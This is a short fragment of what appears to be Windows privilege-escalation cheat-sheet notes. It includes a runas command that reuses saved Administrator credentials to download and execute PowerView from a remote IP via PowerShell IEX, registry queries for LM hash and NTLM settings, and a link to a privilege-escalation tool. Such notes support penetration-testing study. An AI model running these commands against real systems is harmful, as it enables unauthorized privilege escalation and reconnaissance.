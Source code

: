     ```powershell
    runas /user:ACCESS\\Administrator /savecred "powershell -c IEX (New-Object Net.Webclient).downloadstring('<http://10.10.14.5/PowerView.ps1>)"
    ```
* Windows Hashes

  * Check if LM hashes are enabled

    ```powershell
    Get-ItemProperty -Path 'HKLM:\\System\\CurrentControlSet\\Control\\Lsa' -Name 'NoLMHash'
    ```
  * Check Net-NTLM compatibility. If the path does not exist, then Net-NTLMv2 is enabled.

  ```powershell
  Get-ItemProperty -Path 'HKLM:\\SYSTEM\\CurrentControlSet\\Control\\Lsa' -Name 'LMCompatibilityLevel'
  ```

<https://github.com/sailay1996/WerTrigger>
